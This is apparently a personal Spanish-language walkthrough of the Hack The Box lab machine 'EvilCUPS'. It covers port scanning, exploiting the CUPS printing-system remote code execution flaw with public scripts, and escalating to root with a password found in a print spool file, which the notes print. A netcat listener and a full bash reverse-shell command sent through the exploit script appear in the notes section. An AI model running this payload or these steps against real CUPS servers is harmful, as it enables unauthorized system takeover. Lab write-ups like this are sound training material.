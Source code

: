# EvilCUPS

Tags: [[_cve]],[[_webExploitation]],[[_analysis]]

## Primeros pasos
(Reconocimiento).

<span style="color:#07b4f2">Organizamos</span> <span style="color:#ff2dc0">TMUX</span>.
<span style="color:#07b4f2">Activamos</span> <span style="color:#ff2dc0">VPN</span>.

Le <span style="color:#07b4f2">hacemos</span> un <span style="color:#ff2dc0">ping</span> <span style="color:#07b4f2">a</span> la <span style="color:#ff2dc0">máquina</span>. (<span style="color:#379075">Está activa o no</span>).
<span style="color:#bef202">Posible</span> <span style="color:#ff2dc0">máquina Linux</span>.

<span style="color:#07b4f2">Ponemos</span> la <span style="color:#ff2dc0">IP</span> de la <span style="color:#ff2dc0">máquina</span> <span style="color:#07b4f2">en</span> un <span style="color:#07b4f2">lugar visible</span>.
<span style="color:#07b4f2">Creamos</span> un <span style="color:#07b4f2">directorio</span> <span style="color:#07b4f2">como</span> la <span style="color:#ff2dc0">IP</span> o <span style="color:#07b4f2">nombre</span> de la <span style="color:#ff2dc0">máquina</span>.
<span style="color:#07b4f2">Creamos</span> los <span style="color:#07b4f2">directorios</span> de <span style="color:#07b4f2">trabajo</span>.

<span style="color:#bef202">Empezamos el escaneo con</span> <span style="color:#ff2dc0">NMAP</span>. <span style="color:#379075">Otro escaneo de puertos comunes por posibles falsos negativos</span>.
<span style="color:#07b4f2">Buscamos</span> <span style="color:#ff2dc0">codename</span> con <span style="color:#ff2dc0">launchpad</span>, <span style="color:#bef202">un posible</span> <span style="color:#ecacb6">Debian</span>.

+ <span style="color:#ff669c">Puertos abiertos</span>

<span style="color:#ff669c">22</span> - SSH. <span style="color:#379075">Version 9.2p1</span>
<span style="color:#ff669c">631</span> - IPP. <span style="color:#379075">CUPS 2.4</span>

<span style="color:#ff2dc0">UDP</span>.
<span style="color:#ff669c">68</span> - DHCP client.
<span style="color:#ff669c">631</span> - IPP.
<span style="color:#ff669c">5353</span> - Multicast DNS.


## Investigación (Intrusión)
(Reconocimiento/Enumeración).

<span style="color:#ff2dc0">General</span>.
<span style="color:#07b4f2">No</span> figura ningún <span style="color:#07b4f2">otro</span> <span style="color:#ff669c">puerto</span> <span style="color:#07b4f2">mas</span> que el <span style="color:#ff669c">22</span> y <span style="color:#ff2dc0">631</span>, pero por <span style="color:#ff2dc0">TCP</span>, <span style="color:#07b4f2">no</span> nos <span style="color:#07b4f2">olvidemos</span> de <span style="color:#ff2dc0">UDP</span>.


<span style="color:#ff2dc0">TCP</span>.
<span style="color:#ff669c">22</span>.
<span style="color:#07b4f2">No tengo</span> <span style="color:#ff2dc0">credenciales</span> de momento.

<span style="color:#ff669c">631</span>.
<span style="color:#ff2dc0">Sistema</span> de <span style="color:#07b4f2">impresión</span>.
<span style="color:#07b4f2">Una</span> implementación de <span style="color:#ff2dc0">IPP</span> <span style="color:#07b4f2">es</span> <span style="color:#ff2dc0">CUPS</span>.
<span style="color:#07b4f2">Acepta</span> solicitudes por <span style="color:#ff2dc0">POST</span>. La hago y <span style="color:#07b4f2">responde</span> un <span style="color:#ff2dc0">HTML</span>, me <span style="color:#07b4f2">dice</span> que <span style="color:#07b4f2">vaya</span> al <span style="color:#ff2dc0">HTTPS</span> por el <span style="color:#07b4f2">mismo</span> <span style="color:#ff669c">puerto</span>, se ve la <span style="color:#ff2dc0">web</span>.

<span style="color:#ff2dc0">OpenPrinting</span> <span style="color:#ecacb6">CUPS 2.4.2</span>
Investigando vemos <span style="color:#07b4f2">varias cosas</span>
+<span style="color:#07b4f2">Generar</span> un <span style="color:#ff2dc0">PostScript Printer Description</span> (PPD) file.
+También hay <span style="color:#07b4f2">algo</span> de <span style="color:#ff2dc0">BoF</span>.


Al final <span style="color:#07b4f2">utilizamos</span> la de <span style="color:#07b4f2">crear</span> un <span style="color:#ff2dc0">PPD</span>.
https://letsdefend.io/blog/openprinting-cups-rce-analysis-and-poc-cve-2024-47176 :    ya <span style="color:#07b4f2">probamos</span>, y el <span style="color:#ff2dc0">servidor IPP</span> es <span style="color:#ff2dc0">vulnerable</span>, <span style="color:#07b4f2">me hace </span>un <span style="color:#ff2dc0">callback</span>.

En este punto podríamos <span style="color:#07b4f2">crear</span> un <span style="color:#ff2dc0">IPP server</span>, <span style="color:#07b4f2">con esto</span> por ejemplo https://github.com/h2g2bob/ipp-server, monto el servidor.
Para <span style="color:#ff2dc0">ejecutar</span> el <span style="color:#07b4f2">siguiente</span> <span style="color:#ff2dc0">script</span> https://gist.github.com/stong/c8847ef27910ae344a7b5408d9840ee1 (<span style="color:#379075">ya corre el server IPP, para no tener que montarlo manual</span>).

Como habíamos <span style="color:#07b4f2">visto</span> (<span style="color:#379075">unas pruebillas</span>) la <span style="color:#07b4f2">impresora</span> que <span style="color:#07b4f2">añadimos</span> ya <span style="color:#07b4f2">figura</span> en <span style="color:#ecacb6">/printers</span>, sería <span style="color:#07b4f2">cuestión</span> de <span style="color:#07b4f2">esperar</span> a que un<span style="color:#07b4f2"> usuario utilice</span> la <span style="color:#07b4f2">impresora</span> para que se <span style="color:#ff2dc0">ejecute</span> el <span style="color:#ff2dc0">comando</span>, <span style="color:#07b4f2">o</span> en su defecto, <span style="color:#07b4f2">darle</span> a <span style="color:#ecacb6">Print Test Page</span>  (<span style="color:#379075">Imprimir una Hoja de Prueba</span>).
Y pa deeentro.

---
<span style="color:#bef202">Notas</span>.
<span style="color:#ecacb6">1.-</span> 
Da unos <span style="color:#07b4f2">problemas</span> a la hora de <span style="color:#07b4f2">darle</span> a <span style="color:#ecacb6">Print Test Page</span>, quizás porque <span style="color:#07b4f2">debo tener</span> las <span style="color:#ecacb6">librerías</span> necesarias de <span style="color:#ff2dc0">python</span>.

<span style="color:#07b4f2">También modifiqué</span> una <span style="color:#ff2dc0">función</span> del <span style="color:#ff2dc0">script</span>. <span style="color:#ecacb6">send_browsed_packet(...)</span>
<span style="color:#379075">Aunque no hace falta</span>.
![[Pasted image 20241019194458.png]]

<span style="color:#07b4f2">Probamos</span> también con <span style="color:#07b4f2">este</span> https://github.com/IppSec/evil-cups/tree/main :    es <span style="color:#07b4f2">con el que</span> me <span style="color:#07b4f2">funcionó</span> (<span style="color:#379075">seguro que el comando lo enviaba mal</span>). 
<span style="color:#88c425">nc -nlvp 443</span> :    <span style="color:#ff2dc0">listener</span>.
<span style="color:#88c425">python3 evilcups.py 10.10.14.17 10.10.11.40 "bash -c 'bash -i >& /dev/tcp/10.10.14.17/443 0>&1'"</span> :    lo <span style="color:#ff2dc0">independizamos</span> <span style="color:#07b4f2">del</span> <span style="color:#ff2dc0">proceso padre</span> que es la <span style="color:#07b4f2">impresora</span>.


<span style="color:#ecacb6">2.-</span>
Todo nace aquí.
https://www.evilsocket.net/2024/09/26/Attacking-UNIX-systems-via-CUPS-Part-I/

---

<span style="color:#ff2dc0">UDP</span>.
<span style="color:#ff669c">68</span>.

<span style="color:#ff669c">631</span>.

<span style="color:#ff669c">5353</span>.
Tiene la <span style="color:#07b4f2">funcionalidad</span> como un <span style="color:#ff2dc0">DNS</span>.


## Escalada

Enumerar todo el sistema.
Efectivamente, Debian.

<span style="color:#07b4f2">Usuarios</span> válidos a <span style="color:#ff2dc0">nivel</span> de <span style="color:#ff2dc0">sistema</span>.
<span style="color:#ecacb6">root</span>
<span style="color:#ecacb6">htb</span>
<span style="color:#ecacb6">lp</span> -> como el que estoy, tiene <span style="color:#ff2dc0">nologin</span>.


<span style="color:#07b4f2">Investiguemos</span> acerca de <span style="color:#ff2dc0">CUPS</span>.
Hay varias <span style="color:#ff2dc0">rutas</span> <span style="color:#07b4f2">de</span> <span style="color:#ff2dc0">cups</span>, hay una interesante
<span style="color:#ecacb6">/var/spool/cups</span> :    <span style="color:#07b4f2">no</span> tenemos <span style="color:#ff2dc0">permisos</span>, vamos <span style="color:#07b4f2">atrás</span>.
Investigando, es posible <span style="color:#07b4f2">llegar</span> a<span style="color:#07b4f2"> ver algo de</span> las <span style="color:#07b4f2">impresoras</span> https://stackoverflow.com/questions/53688075/how-to-dissect-a-cups-job-control-file-var-spool-cups-cnnnnnn

<span style="color:#88c425">cat /var/spool/cups/d00001-001</span> :    vemos <span style="color:#07b4f2">información</span>. <span style="color:#07b4f2">Si no</span>, lo podemos <span style="color:#07b4f2">traer</span> a <span style="color:#07b4f2">mi</span> <span style="color:#ff2dc0">máquina</span> y hacerle un <span style="color:#ff2dc0">strings</span>.

Vemos una <span style="color:#07b4f2">contraseña</span>.
<span style="color:#ecacb6">Br3@k-G!@ss-r00t-evilcups</span>
La <span style="color:#07b4f2">probamos</span> con <span style="color:#ff2dc0">root</span> y pa deeeentro.

FIN.
